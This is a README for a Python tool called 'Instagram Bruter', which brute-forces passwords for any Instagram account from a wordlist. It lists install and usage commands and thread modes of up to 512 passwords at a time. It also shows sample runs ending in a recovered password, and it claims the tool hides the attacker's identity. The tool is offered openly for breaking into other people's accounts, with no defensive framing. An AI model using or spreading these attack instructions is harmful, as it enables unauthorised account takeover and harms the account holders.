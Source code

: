 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)]()
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)]()

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

WE are no longer maintaining this project.

### Support us 
subscribe us at fratello

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\fratello\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\Fratello\Desktop\Instagram>python3 instagram.py fratello pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Fratello\Desktop\Instagram>python3 instagram.py fratello pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Fratello\Desktop\Instagram>python3 instagram.py fratello pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Fratello\Desktop\Instagram>python3 instagram.py fratello pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Fratello
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Fratello
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Fratello
[+] Password: Sami123
```
